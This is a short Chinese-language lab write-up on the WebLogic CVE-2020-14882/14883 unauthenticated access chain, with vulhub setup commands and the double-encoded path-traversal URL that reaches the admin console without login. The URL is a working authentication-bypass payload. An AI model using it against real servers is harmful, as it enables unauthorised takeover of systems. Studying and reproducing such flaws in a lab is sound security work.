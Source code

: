 # Weblogic 未授权访问漏洞

## 漏洞描述

Weblogic是Oracle公司推出的J2EE应用服务器，CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

## 漏洞检测

使用vulhub搭建漏洞演示环境

```bash
cd vulhub/weblogic/CVE-2020-14882
sudo docker-compose up -d
```

```
http://192.168.0.5:7001/console/css/%252e%252e%252fconsole.portal
```

攻击者可以构造特殊请求的URL，即可未授权访问到管理后台页面：

![image-20220511234328480](../../.gitbook/assets/image-20220511234328480.png)

远程攻击者可以构造特殊的HTTP请求，在未经身份验证的情况下接管 WebLogic Server Console ，并在 WebLogic Server Console 执行任意代码。

* weblogic 权限绕过命令执行漏洞复现
